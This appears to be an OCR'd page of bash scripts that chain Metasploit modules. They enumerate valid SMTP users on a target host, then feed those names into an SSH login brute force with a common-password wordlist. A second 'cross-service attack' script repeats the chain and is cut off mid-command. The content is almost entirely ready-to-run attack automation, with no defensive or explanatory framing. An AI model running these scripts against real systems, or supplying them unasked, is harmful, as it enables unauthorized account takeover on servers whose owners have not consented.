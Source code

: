 ```bash
#!/bin/bash

TARGET=$1
SMTP_USERS="smtp_users.txt"

echo "[*] Extracting SMTP users for SSH brute force"

# First, enumerate SMTP users
msfconsole -q -x "
workspace -a smtp_to_ssh;
setg RHOSTS $TARGET;
use auxiliary/scanner/smtp/smtp_enum;
set USER_FILE /usr/share/metasploit-framework/data/wordlists/unix_users.txt;
set VERBOSE false;
run;
exit" | grep "Found user" | awk '{print $NF}' > $SMTP_USERS

echo "[+] Found $(wc -l $SMTP_USERS | awk '{print $1}') users via SMTP"

# Now use these users for SSH brute force
msfconsole -q -x "
workspace smtp_to_ssh;
use auxiliary/scanner/ssh/ssh_login;
set USER_FILE $SMTP_USERS;
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/common_passwords.txt;
set STOP_ON_SUCCESS true;
set THREADS 5;
run;
exit"
```

### Cross-Service Integration Script

```bash
#!/bin/bash

TARGET=$1

echo "[*] Starting cross-service enumeration attack"
echo "[*] Target: $TARGET"

# Create workspace
msfconsole -q -x "workspace -a cross_service_attack; setg RHOSTS $TARGET; exit"

# SMTP user enumeration
echo "[+] Enumerating users via SMTP"
msfconsole -q -x "
workspace cross_service_attack;
use auxiliary/scanner/smtp/smtp_enum;
run;
" | grep "Found user" | awk '{print $NF}' > smtp_users.txt

# Use discovered users for SSH attacks
if [ -s smtp_users.txt ]; then
    echo "[+] Found $(wc -l smtp_users.txt | awk '{print $1}') users, proceeding to SSH brute force"
    msfconsole -q -x "
    workspace cross_service_attack;
    use auxiliary/scanner/ssh/ssh_login;
    set USER_FILE smtp_users.txt;
    set PASS_FILE /usr/share/metasploit-framework/data/wordlists/common_passwords.txt;
    set STOP_ON_SUCCESS true;
    run;
```